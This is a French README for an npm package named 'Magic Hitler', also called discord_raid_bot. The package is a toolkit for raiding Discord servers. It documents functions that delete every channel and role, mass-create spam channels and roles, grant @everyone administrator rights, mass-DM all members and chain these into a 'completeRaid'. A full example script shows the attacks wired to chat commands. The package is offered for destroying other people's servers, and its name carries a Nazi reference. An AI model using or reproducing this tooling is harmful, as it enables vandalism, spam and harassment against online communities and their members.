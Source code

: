 # Magic Hitler
# Discord Raid Bot
[![npm](https://img.shields.io/npm/v/magic_hitler.svg)](https://www.npmjs.com/package/magic_hitler)
[![npm](https://img.shields.io/badge/taille-27Ko-brightgreen.svg)](https://www.npmjs.com/package/magic_hitler)
[![github](https://img.shields.io/badge/Disponible%20sur-GitHub-red.svg)](https://github.com/JacqueSatan/Magic-Hitler-npm-module)
[![github](https://img.shields.io/badge/et-npm-yellow.svg)](https://www.npmjs.com/package/magic_hitler)
La mise en page n'est pas totalement prise en charge par GitHub, [cliquez ici](https://www.npmjs.com/package/magic_hitler) pour y voir plus clair.
## Sommaire
    1 - Installation
    2 - Utilisation
## 1 - Installation
Pour installer Discord Raid Bot, éxecutez simplement la commande 
```bash
npm install discord_raid_bot
```
dans le dossier de votre application Node.Js.
## 2 - Utilisation
Pour utiliser Discord Raid Bot, intégrez la ligne suivante à votre code :
```javascript
const raid = require('discord_raid_bot');
```





***
### raid.deleteAllChannels(client, trigger, createChannel)
Supprime tous les salons du serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| createChannel | boolean   | Crée un salon quand tous les autres sont supprimés si activé |
ex : 
```js
raid.deleteAllChannels(bot, "supprimer les salons", true);
```





***
### raid.createChannels(client, trigger, numberOfChannelsToCreate, nameOfChannelsToCreate, MessageToSpamInNewChannels, numberOfNotificationsPerChannel)
Supprime tous les salons du serveur puis en crée d'autres en spammant dedans.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| numberOfChannelsToCreate | int | Le nombre multiplié par 2 de salons qui seront créés dans le serveur |
| nameOfChannelsToCreate | string | Le nom des salons qui seront créés dans le serveur |
| MessageToSpamInNewChannels | string | Les messages qui seront envoyés dans chaque salon créé dans le serveur |
| numberOfNotificationsPerChannel | int | Nombre de messages envoyés dans chaque salon |
ex :
```js
raid.createChannels(bot, "créer des salons", 444, "salon-créé", "@everyone message envoyé", 3);
```





***
### raid.deleteRoles(client, trigger)
Supprime tous les rôles supprimables dans le serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
ex :
```js
raid.deleteRoles(bot, "supprimer les rôles")
```





***
### raid.createRoles(client, trigger, nameOfRolesToCreate, NumberOfRolesToCreate)
Créer des rôles dans le serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| nameOfRolesToCreate | string | Nom des rôles à créer |
| NumberOfRolesToCreate | int | Nombre de rôles à créér |
ex :
```js
raid.createRoles(bot, "créer des rôles", "nom des rôles", 42)
```





***
### raid.everyoneAdmin(client, trigger)
Rend le rôle @everyone administrateur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
ex :
```js
raid.everyoneAdmin(bot, "@everyone admin")
```





***
### raid.dmAllMembers(client, trigger, msg, numberOfMessages)
Contacte chaque membre du serveur par message privé.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| msg   | string    | Le message qui sera envoyé à chaque membre |
| numberOfMessages |    number |    Nombre de messages envoyés |
ex :
```js
raid.dmAllMembers(bot, "messages privés", "message envoyé", 15)
```




***
### raid.completeRaid(client, trigger, everyoneAdmin, deleteRoles, deleteChannels, createChannels, channelsName, channelsNumber, spamMessage, messagesNumber, createRoles, rolesName, rolesNumber)
Combine plusieurs attaques en une seule.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| everyoneAdmin  | boolean | Rend le rôle @everyone administrateur |
| deleteRoles | boolean | Supprime les rôles supprimables |
| deleteChannels | boolean | Supprime tous les salons |
| createChannels | boolean | Crée des salons pour y spammer |
| channelsName | string | Nom des salons créés |
| channelsNumber | number | Nombre de salons créés (max = 500) |
| spamMessage | string | Message spammé dans les nouveaux salons |
| messagesNumber | number | Nombre de messsages à envoyer |
| createRoles | boolean | Crée des rôles |
| rolesName | string | Nom des rôles à créer |
| RolesNumber | number | Nombre de rôles à créer (max = 250) |
ex :
```js
raid.completeRaid(bot, 'raid', true, true, true, true, 'nom-des-salons', 222, 'message spammé', 3000, true, 'nom des rôles', 30)
```




***
### raid.createInvite(client, trigger, allGuilds)
Crée une invitation pour un ou chacun des serveurs où le bot se trouve, puis vous l'envoie.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| allGuilds     | boolean   | Crée une invitation pour tous les serveurs |
ex :
```js
raid.createInvite(bot, "créer une invitation", true);
```





***
### raid.ready(client)
Affiche des informations sur le bot dè qu'il est prêt.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
ex :
```js
raid.ready(bot);
```





***
## Exemple complet

```js
const raid = require('discord_raid_bot');
const Discord = require('discord.js');
const bot = new Discord.Client();
const config = require('./config.json');

raid.ready(bot);
raid.deleteAllChannels(bot, "!suppr_chnls", true);
raid.createChannels(bot, "!spam_chnls", 222, "raid", "@everyone", 6);
raid.deleteRoles(bot, "!kill_rls");
raid.createRoles(bot, "!create_rls", 'raid', 25);
raid.completeRaid(bot, '!raid', true, true, true, true, 'raid', 222, '@everyone', 3000, true, 'raid', 30);
raid.dmAllMembers(bot, "!dm", "https://discord.gg/xxxxxx", 15);
raid.everyoneAdmin(bot, "!admin");
raid.createInvite(bot, "!inv", false);
raid.createInvite(bot, "!all-servs-inv", true); // On peut déclarer plusieurs configurations différentes

client.login(config.token);
```
Plus de 300 lignes de codes résumées en 10.
